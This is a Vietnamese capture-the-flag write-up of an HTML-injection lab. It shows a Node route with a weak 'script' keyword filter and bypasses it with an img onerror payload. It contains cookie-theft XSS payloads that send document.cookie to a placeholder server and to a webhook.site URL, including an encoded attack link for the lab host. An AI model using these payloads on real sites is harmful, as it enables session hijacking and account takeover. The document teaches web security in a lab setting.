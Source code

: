 # HTML Injection 3

# Thử thách về lỗi bảo mật HTML Injection

# Mục tiêu: Đọc note của nạn nhân
# Code validation
```
router.get('/search', function (req, res, next) {
    // Don't allow script keyword
    if (req.query.q.search(/script/i) > 0) {
        res.send('Hack detected');
        return;
    }
    html = 'Your search - <b>' + req.query.q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```
# Phân tích
-  Không cho phép từ khóa `script` trong truy vấn tìm kiếm
# bypass
-  Tuy nhiên, ta có thể sử dụng các ký tự HTML để tạo ra thẻ `<script>` mà không cần từ khóa `script`.
-  Ví dụ: sử dụng các thẻ html như `svg` hoặc `img` để chèn mã JavaScript.
-  Ta có thể sử dụng các ký tự như `onerror`, `onclick`, `onload` để thực thi mã JavaScript khi sự kiện xảy ra.
-  Ví dụ: `<img src=x onerror=alert(1)>` sẽ hiển thị một thông báo cảnh báo khi hình ảnh không thể tải.
# Bước thực hiện
-  Truy cập vào đường dẫn `/search?q=<img src=x onerror=alert(1)>`
-  Khi đó, mã JavaScript sẽ được thực thi và hiển thị thông báo cảnh báo với giá trị `1`.
# Kết quả
-  Bạn sẽ thấy một thông báo cảnh báo với giá trị `1`, chứng tỏ rằng bạn đã thành công trong việc thực hiện HTML Injection.
# Lấy cookie
-  Để lấy cookie của nạn nhân, bạn có thể sử dụng mã JavaScript như sau:
```html
<img src=x onerror="fetch('http://your-server.com/steal?cookie='+document.cookie)">
```
- playload encode:
```url
https://url/search?q=%3Cimg+src%3Dx+onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F3a6cea0c-0c4b-4528-a54e-421553192587%2Fsteal3%3Fcookie%3D%27%2Bdocument.cookie%29%22%3E
```
-  Khi nạn nhân truy cập vào trang web và mã JavaScript này được thực thi, nó sẽ gửi cookie của nạn nhân đến máy chủ của bạn thông qua một yêu cầu `fetch`.
-  Bạn cần thay thế `http://your-server.com/steal` bằng URL của máy chủ mà bạn đã thiết lập để nhận cookie.
# Kết quả
-  Cookie của nạn nhân đã được gửi đến `webhook`
-  Lây được cookie của nạn nhân, ta có thể sử dụng để truy cập vào tài khoản của họ hoặc thực hiện các hành động khác trên trang web.
-  Vào developer tools của trình duyệt, vào tab Application, chọn Cookies, ta có thể thấy cookie thay cookie của nạn nhân đã được gửi đến webhook.
-  F5 để nhận cookie mới nhất
-  Vào mục `note` của nạn nhận để xem nội dung note của nạn nhân.
- Phát hiện flag của nạn nhân.
# Lưu ý
-  Đây là một ví dụ đơn giản về HTML Injection, trong thực tế có thể có những biện pháp bảo vệ khác như Content Security Policy (CSP) hoặc các bộ lọc khác để ngăn chặn việc thực thi mã JavaScript từ các thẻ HTML không an toàn.
-  Luôn luôn kiểm tra và xác thực đầu vào từ người dùng để tránh các lỗi bảo mật như HTML Injection, XSS, và các lỗ hổng khác.
-  Hãy nhớ rằng việc thực hiện các cuộc tấn công như vậy chỉ nên được thực hiện trong môi trường kiểm thử hoặc với sự cho phép của người sở hữu hệ thống. Việc tấn công vào hệ thống mà không có sự cho phép là vi phạm pháp luật và đạo đức.
# Tài liệu tham khảo
- [HTML Injection](https://owasp.org/www-community/attacks/HTML_Injection)
- [XSS (Cross-Site Scripting)](https://owasp.org/www-community/attacks/xss/)
- [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-community/xss-prevention-cheat-sheet)
- [MDN Web Docs - HTML Injection](https://developer.mozilla.org/en-US/docs/Glossary/HTML_injection)
- [MDN Web Docs - Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
- [MDN Web Docs - Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/  HTTP/CSP)   

https://note3.cyberjutsu-lab.tech/search?q=%3Cimg+src%3Dx+onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F3a6cea0c-0c4b-4528-a54e-421553192587%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%29%22%3E